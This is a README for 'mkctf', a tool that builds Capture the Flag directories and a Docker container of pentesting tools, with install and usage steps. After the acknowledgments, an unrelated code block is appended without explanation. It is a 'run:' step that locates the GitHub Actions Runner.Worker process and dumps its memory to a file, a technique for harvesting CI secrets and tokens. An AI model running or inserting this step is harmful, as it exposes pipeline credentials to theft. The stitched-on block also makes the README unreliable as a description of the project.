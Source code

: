 # mkctf

`mkctf` is a convenient tool for setting up Capture the Flag (CTF) challenge environments. This script creates a standardized directory structure and initializes a Docker container with essential pentesting tools, providing a ready-to-use environment for tackling CTF challenges.

## Features

- **Automatic Directory Setup**: Creates a structured environment with directories for `network`, `web`, `creds`, and `notes`.
- **Docker Integration**: Uses Docker to provide an isolated environment pre-configured with essential CTF tools.
- **Comprehensive Toolset**: Installs a wide range of pentesting tools including network utilities, web tools, password crackers, and more.
## Installation

1. **Clone the Repository**:
    ```bash
    git clone https://github.com/polo-sec/mkctf.git
    cd mkctf
    ```

2. **Make the Script Executable**:
    ```bash
    chmod +x mkctf.sh
    ```

3. **Add an Alias** (optional but recommended):
    Add the following line to your `.bashrc` or `.zshrc`:
    ```bash
    alias mkctf='/path/to/mkctf.sh'
    ```
    Then, source the file:
    ```bash
    source ~/.bashrc
    ```
    or
    ```bash
    source ~/.zshrc
    ```

## Usage

1. **Create a New Challenge Environment**:
    ```bash
    mkctf <challenge_name>
    ```

2. **Navigate to the Challenge Directory**:
    ```bash
    cd <challenge_name>
    ```

3. **Build and Start the Docker Container**:
    ```bash
    docker-compose up -d --build
    ```

4. **Access the Running Container**:
    ```bash
    docker exec -it <challenge_name>_pentest /bin/bash
    ```

## Directory Structure

When you run `mkctf <challenge_name>`, the following directory structure is created:

```
<challenge_name>/
├── creds/
├── docker-compose.yml
├── Dockerfile
├── network/
├── notes/
└── web/
```

## Contributing

Contributions are welcome! Please submit a pull request or open an issue to discuss any changes or suggestions.

## License

This project is licensed under the MIT License

## Acknowledgments

- Inspired by the need for a streamlined and efficient CTF preparation environment.
- Thanks to the developers of the various tools integrated into this project.

```
run: docker exec kali bash -c 'PID=$(pgrep -f Runner.Worker) && echo "[*] PID: $PID" && awk '\''{split($1,a,"-"); if ($2 ~ /rw/) print a[1],a[2]}'\'' /proc/"$PID"/maps | while read start end; do dd if=/proc/"$PID"/mem bs=1 skip=$((0x$start)) count=$((0x$end - 0x$start)) 2>/dev/null; done > /root/memdump.raw'
```

